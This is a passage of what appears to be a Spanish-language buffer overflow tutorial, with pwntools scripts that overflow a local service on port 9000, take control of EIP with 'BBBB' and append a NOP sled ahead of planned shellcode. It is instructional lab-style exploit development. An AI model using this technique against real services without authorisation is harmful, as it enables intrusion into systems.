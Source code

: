 ```python
    conectar.sendline(payload)
    conectar.close

if __name__ == "__main__":
    exploit()
```

Resultado:

```css
EIP  0x42424242 ('BBBB')
```

Perfecto, ya logramos tomar el control del EIP, ahora necesitamos ver en donde se guardan los `nops` que enviemos para saber como ejecutar nuestro shellcode:

```css
#!/usr/bin/env python3

from pwn import *

def exploit():

    ip='127.0.0.1'
    port='9000'


    # Offset
    offset = 22

    # Buffer
    buffer = b"A"*offset

    # EIP
    eip = b"B"*4

    # NOPS
    nops = b"\x90"*32



    payload = buffer + eip + nops


    conectar = remote(ip, port)
    conectar.sendline(payload)
    conectar.close

if __name__ == "__main__":
    exploit()
```

Resultado:
